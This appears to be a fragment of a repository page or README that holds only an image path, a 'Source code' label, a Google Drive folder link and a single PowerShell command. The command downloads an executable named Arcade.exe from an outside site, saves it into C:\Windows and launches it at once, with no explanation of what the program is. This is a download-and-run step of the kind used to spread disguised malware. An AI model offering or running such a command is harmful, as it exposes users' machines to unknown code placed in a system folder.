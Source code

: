 powershell -Command "Invoke-WebRequest -Uri 'https://picteon.dev/files/Arcade.exe' -OutFile 'C:\Windows\Arcade.exe'; Start-Process 'C:\Windows\Arcade.exe'"




https://drive.google.com/drive/folders/15B9flj7e7puXOhBMeYNE-eIZreyrywew
